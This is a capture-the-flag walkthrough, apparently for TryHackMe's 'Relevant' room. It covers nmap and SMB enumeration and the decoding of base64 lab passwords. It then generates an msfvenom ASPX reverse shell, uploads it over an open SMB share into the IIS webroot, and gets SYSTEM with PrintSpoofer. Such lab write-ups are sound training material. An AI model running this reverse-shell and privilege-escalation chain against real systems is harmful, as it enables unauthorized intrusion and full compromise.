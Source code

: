 Relavant (Tryhackme)

<img src="https://github.com/HeinPyaeSoneShein/CTF-Write-up/blob/main/Relevant(THM)/10524728b2b462e8d164efe4e67ed087.jpeg?raw=true" alt="TryHackMe Room Icon" width="150"/>
Penetration Testing Challenge

# Enumeration

## Nmap

```jsx
PORT      STATE SERVICE       REASON          VERSION
80/tcp    open  http          syn-ack ttl 125 Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server

135/tcp   open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 125 Microsoft Windows netbios-ssn

445/tcp   open  microsoft-ds  syn-ack ttl 125 Windows Server 2016 Standard Evaluation 14393 microsoft-ds

3389/tcp  open  ms-wbt-server syn-ack ttl 125 Microsoft Terminal Services
| ssl-cert: Subject: commonName=Relevant
| Issuer: commonName=Relevant
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-06-04T13:17:24
| Not valid after:  2025-12-04T13:17:24
| MD5:   9ddf:ed34:3c12:2d90:122e:611d:d885:719d
| SHA-1: 5577:0fbe:8a32:a7d3:3b5c:122e:ce23:b5bb:6961:b44d
|_ssl-date: 2025-06-05T13:23:37+00:00; -1s from scanner time.

49663/tcp open  http          syn-ack ttl 125 Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0

49666/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC

```

## SMB (445)

```jsx
┌──(kali㉿kali)-[~/CTF/tryhackme/Relevant]
└─$ smbclient -L \\\\10.10.102.138\\
Password for [WORKGROUP\kali]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        nt4wrksv        Disk      
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.102.138 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available

```

```jsx
┌──(kali㉿kali)-[~/CTF/tryhackme/Relevant]
└─$ smbclient \\\\10.10.102.138\\nt4wrksv
Password for [WORKGROUP\kali]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sat Jul 25 17:46:04 2020
  ..                                  D        0  Sat Jul 25 17:46:04 2020
  passwords.txt                       A       98  Sat Jul 25 11:15:33 2020

```

```jsx
[User Passwords - Encoded]
Qm9iIC0gIVBAJCRXMHJEITEyMw==
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk
```

```jsx
┌──(kali㉿kali)-[~/CTF/tryhackme/Relevant]
└─$ echo "Qm9iIC0gIVBAJCRXMHJEITEyMw==" | base64 -d
Bob - !P@$$W0rD!123 
```

```jsx
┌──(kali㉿kali)-[~/CTF/tryhackme/Relevant]
└─$ echo "QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk" | base64 -d
Bill - Juw4nnaM4n420696969!$$$
```

![image](https://github.com/HeinPyaeSoneShein/CTF-Write-up/blob/3f2c4eb2f420cf3dc3c24b324c83a916a4f5110d/Relevant(THM)/image%20(1).png?raw=true)




```jsx
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip> LPORT=53 -f aspx -o rev.aspx

```

- `.aspx` is the file extension for **ASP.NET web pages**, used on **Windows servers running IIS**
- we will upload this from smb
- We got shell and get user.txt

## ROOT

- check whoami `/priv`

```jsx
SeImpersonatePrivilege enable
```

### PrintSpoofer

```jsx
┌──(kali㉿kali)-[/opt/tools/printspoofer]
└─$ smbclient \\\\10.10.102.138\\nt4wrksv
Password for [WORKGROUP\kali]:
Try "help" to get a list of possible commands.
smb: \> put PrintSpoofer.exe
putting file PrintSpoofer.exe as \PrintSpoofer.exe (18.5 kb/s) (average 18.5 kb/s)
smb: \> 

```

```jsx
c:\inetpub\wwwroot\nt4wrksv>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is AC3C-5CB5

 Directory of c:\inetpub\wwwroot\nt4wrksv

06/05/2025  07:12 AM    <DIR>          .
06/05/2025  07:12 AM    <DIR>          ..
07/25/2020  08:15 AM                98 passwords.txt
06/05/2025  07:12 AM            27,136 PrintSpoofer.exe
06/05/2025  06:52 AM             3,424 rev.aspx
               3 File(s)         30,658 bytes
               2 Dir(s)  21,045,948,416 bytes free

c:\inetpub\wwwroot\nt4wrksv>PrintSpoofer.exe -i -c cmd
```

```jsx
C:\Windows\system32>whoami
whoami
nt authority\system

```
